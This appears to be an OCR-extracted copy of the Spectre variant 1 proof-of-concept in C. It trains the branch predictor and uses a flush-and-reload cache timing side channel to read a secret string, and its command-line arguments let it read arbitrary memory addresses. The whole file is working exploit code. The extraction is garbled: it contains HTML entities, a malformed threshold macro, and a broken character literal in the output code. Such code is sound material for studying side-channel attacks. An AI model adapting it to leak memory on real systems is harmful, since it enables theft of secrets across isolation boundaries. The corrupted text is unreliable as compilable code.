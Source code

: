# -include-stdio.h-include-stdlib.h-include-stdint.h-ifdef-_MSC_VER-include-intrin.h-fo
#include &lt;stdio.h> #include &lt;stdlib.h> #include &lt;stdint.h> #ifdef _MSC_VER #include &lt;intrin.h> /* for rdtscp and clflush */ #pragma optimize("gt",on) #else #include &lt;x86intrin.h> /* for rdtscp and clflush */ #endif  /******************************************************************** Victim code. ********************************************************************/ unsigned int array1_size = 16; uint8_t unused1[64]; uint8_t array1[160] = {   1,   2,   3,   4,   5,   6,   7,   8,   9,   10,   11,   12,   13,   14,   15,   16 }; uint8_t unused2[64]; uint8_t array2[256 * 512];  char * secret = "The Magic Words are Squeamish Ossifrage.";  uint8_t temp = 0; /* Used so compiler won’t optimize out victim_function() */  void victim_function(size_t x) {   if (x &lt; array1_size) {     temp &amp;= array2[array1[x] * 512];   } }  /******************************************************************** Analysis code ********************************************************************/ #define CACHE_HIT_THRESHOLD(80) /* assume cache hit if time &lt;= threshold */  /* Report best guess in value[0] and runner-up in value[1] */ void readMemoryByte(size_t malicious_x, uint8_t value[2], int score[2]) {   static int results[256];   int tries, i, j, k, mix_i, junk = 0;   size_t training_x, x;   register uint64_t time1, time2;   volatile uint8_t * addr;    for (i = 0; i &lt; 256; i++)     results[i] = 0;   for (tries = 999; tries > 0; tries--) {      /* Flush array2[256*(0..255)] from cache */     for (i = 0; i &lt; 256; i++)       _mm_clflush( &amp; array2[i * 512]); /* intrinsic for clflush instruction */      /* 30 loops: 5 training runs (x=training_x) per attack run (x=malicious_x) */     training_x = tries % array1_size;     for (j = 29; j >= 0; j--) {       _mm_clflush( &amp; array1_size);       for (volatile int z = 0; z &lt; 100; z++) {} /* Delay (can also mfence) */        /* Bit twiddling to set x=training_x if j%6!=0 or malicious_x if j%6==0 */       /* Avoid jumps in case those tip off the branch predictor */       x = ((j % 6) - 1) &amp; ~0xFFFF; /* Set x=FFF.FF0000 if j%6==0, else x=0 */       x = (x | (x >> 16)); /* Set x=-1 if j&amp;6=0, else x=0 */       x = training_x ^ (x &amp; (malicious_x ^ training_x));        /* Call the victim! */       victim_function(x);      }      /* Time reads. Order is lightly mixed up to prevent stride prediction */     for (i = 0; i &lt; 256; i++) {       mix_i = ((i * 167) + 13) &amp; 255;       addr = &amp; array2[mix_i * 512];       time1 = __rdtscp( &amp; junk); /* READ TIMER */       junk = * addr; /* MEMORY ACCESS TO TIME */       time2 = __rdtscp( &amp; junk) - time1; /* READ TIMER &amp; COMPUTE ELAPSED TIME */       if (time2 &lt;= CACHE_HIT_THRESHOLD &amp;&amp; mix_i != array1[tries % array1_size])         results[mix_i]++; /* cache hit - add +1 to score for this value */     }      /* Locate highest &amp; second-highest results results tallies in j/k */     j = k = -1;     for (i = 0; i &lt; 256; i++) {       if (j &lt; 0 || results[i] >= results[j]) {         k = j;         j = i;       } else if (k &lt; 0 || results[i] >= results[k]) {         k = i;       }     }     if (results[j] >= (2 * results[k] + 5) || (results[j] == 2 &amp;&amp; results[k] == 0))       break; /* Clear success if best is > 2*runner-up + 5 or 2/0) */   }   results[0] ^= junk; /* use junk so code above won’t get optimized out*/   value[0] = (uint8_t) j;   score[0] = results[j];   value[1] = (uint8_t) k;   score[1] = results[k]; }  int main(int argc,   const char * * argv) {   size_t malicious_x = (size_t)(secret - (char * ) array1); /* default for malicious_x */   int i, score[2], len = 40;   uint8_t value[2];    for (i = 0; i &lt; sizeof(array2); i++)     array2[i] = 1; /* write to array2 so in RAM not copy-on-write zero pages */   if (argc == 3) {     sscanf(argv[1], "%p", (void * * )( &amp; malicious_x));     malicious_x -= (size_t) array1; /* Convert input value into a pointer */     sscanf(argv[2], "%d", &amp; len);   }    printf("Reading %d bytes:\n", len);   while (--len >= 0) {     printf("Reading at malicious_x = %p... ", (void * ) malicious_x);     readMemoryByte(malicious_x++, value, score);     printf("%s: ", (score[0] >= 2 * score[1] ? "Success" : "Unclear"));     printf("0x%02X=’%c’ score=%d ", value[0],       (value[0] > 31 &amp;&amp; value[0] &lt; 127 ? value[0] : "?"), score[0]);     if (score[1] > 0)       printf("(second best: 0x%02X score=%d)", value[1], score[1]);     printf("\n");   }   return (0); }

